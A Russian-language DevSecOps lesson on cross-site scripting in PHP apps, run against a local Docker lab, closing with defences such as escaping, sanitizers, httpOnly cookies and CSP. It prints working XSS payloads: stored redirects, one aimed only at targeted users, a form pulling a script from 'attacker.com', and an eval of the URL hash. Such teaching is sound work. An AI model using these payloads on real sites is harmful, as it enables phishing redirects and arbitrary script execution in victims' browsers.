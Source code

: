 ## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NIST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |
| [CVE-2023-2057](https://nvd.nist.gov/vuln/detail/CVE-2023-2057) | 14.04.2023      | В EyouCms 1.5.4 была обнаружена уязвимость. Она была классифицирована как проблемная. Затронута неизвестная функция файла login.php?m=admin&c=Arctype&a=редактирование компонента New Picture Handler. Манипулирование аргументом litpic_loca приводит к межсайтовому написанию сценариев. Атаку можно запустить удаленно. Эксплойт был раскрыт общественности и может быть использован. |



### II. Практическая часть.

Запустим тестовый стенд.

```bash
docker pull ket9/otus-devsecops-xss:latest
docker run -d -p 8080:80 --name otus-05 ket9/otus-devsecops-xss:latest
```

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

```javascript
My first comment!<script>alert("Congratulations! You was hacked!")</script>
```

Можно привести сервис в состояние условного отказа в обслуживании в части просмотра или добавления комментариев за счет постоянного редиректа на другую страницу, или выполнить редирект на фишинговый сайт с таким же дизайном:

```javascript
<script>window.location.href="https://google.com"</script>
```

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

```javascript
<script> 
    const params = new URLSearchParams(window.location.search); 
    const attack = params.get("attack"); 
    if(attack === "true") { 
        window.location.href="https://google.com";
    }; 
</script>
```

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

```
http://localhost:8080/XSS-1/index.php?attack=true
```

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

```
get.php?search=<script>alert("XSS ATTACK!")></script>;
```

или через POST-запрос, например, в заранее подготовленной форме:

```javascript
<form name=TheForm action=http://myapp.com/page.php method=post>
	<input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/>
</form>
```


В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

```javascript
<script>var l = location.hash.slice(1);eval(l);</script>
```

Формируем ссылку:

```
http://localhost:8080/XSS-1/#alert('Surprise!')
```

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента, без задействования бэкенда приложения. Например, за счет использования символа **#** в ссылке мы можем выполнить любой скрипт, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

Например, источником для атаки могут стать:

![source](./images/source.png)

и куда это может быть применено:

![sink](./images/sink.png)

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чувствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
